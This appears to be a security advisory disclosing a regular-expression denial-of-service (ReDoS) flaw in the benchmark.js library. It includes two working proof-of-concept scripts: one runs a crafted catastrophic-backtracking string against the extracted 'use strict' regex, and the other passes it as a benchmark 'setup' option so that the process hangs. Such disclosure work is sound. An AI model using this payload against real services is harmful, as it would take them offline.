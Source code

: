 It is possible to insert an evil regex as part of benchmark options such as  setup, fn, fnArg ,teardown which can be used to conduct denial of service attacks benchmarkjs. This is possible because the regex use to check `use strict` string allows multiple repetitions of '***//' which allows Catastrophic Backtracking.
## Proof of Concept (Credit: [snoopysecurity](https://huntr.dev/app/users/snoopysecurity))

**Simple PoC**

This is a PoC of the extracted regex use to simply demonstrate that the ReDoS is possible. Benchmark is used here simply to measure time
```
var normal_payload = `
"use strict";
myFunction();
`
var redos = '/****//**//****//**//****//**//****//**//****//**//****//**//****//**//****//**//*\*/ /*//**//**//*_*//**/*//';
//normal test
console.time('benchmark');
/^(?:\/\*+[\w\W]*?\*\/|\/\/.*?[\n\r\u2028\u2029]|\s)*(["'])use strict\1;?$/.test(normal_payload);
console.timeEnd('benchmark');

//exploit payload
console.time('benchmark');
/^(?:\/\*+[\w\W]*?\*\/|\/\/.*?[\n\r\u2028\u2029]|\s)*(["'])use strict\1;?$/.test(redos);
console.timeEnd('benchmark');
```
**Package PoC**

This PoC demonstrates the malicious regex being inserted as part of potential user input.This hangs
```
var redos = '/****//**//****//**//****//**//****//**//****//**//****//**//****//**//****//**//*\*/ /*//**//**//*_*//**/*//';
var Benchmark = require('benchmark');
var bench = Benchmark({
        redos : true,
        'setup': redos,
        'fn': 'throw a;',
        'teardown': 'a = 2;'

      }).run()

console.log(bench);
```
## References:
 - [GitHub Issue](https://github.com/bestiejs/benchmark.js/issues/229)